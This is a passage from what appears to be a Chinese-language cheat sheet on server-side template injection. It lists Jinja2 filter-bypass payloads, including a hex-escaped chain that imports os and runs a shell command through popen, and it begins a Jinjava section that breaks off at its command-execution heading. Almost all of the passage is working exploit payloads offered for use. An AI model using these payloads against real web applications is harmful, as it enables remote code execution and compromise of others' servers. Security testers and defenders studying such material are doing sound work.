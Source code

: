 绕过 `_`

```python
http://localhost:5000/?exploit={{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_

{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
```

绕过 `[` 和 `]`

```python
http://localhost:5000/?exploit={{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
or
http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```

绕过 `|join`

```python
http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

通过https://twitter.com/SecGus绕过最常见的过滤器（'.','_','|join','[',']','mro' 和 'base'）：

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```



## Jinjava

[官方网站](https://github.com/HubSpot/jinjava)

> 基于Java的模板引擎，基于django模板语法，适应于渲染jinja模板（至少在HubSpot内容中使用的jinja子集）。

### Jinjava - 基本注入

```python
{{'a'.toUpperCase()}} 将得到 'A'
{{ request }} 将返回一个请求对象，如 com.[...].context.TemplateContextRequest@23548206
```

Jinjava是由Hubspot开发的开源项目，可在 [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/) 获取

### Jinjava - 命令执行
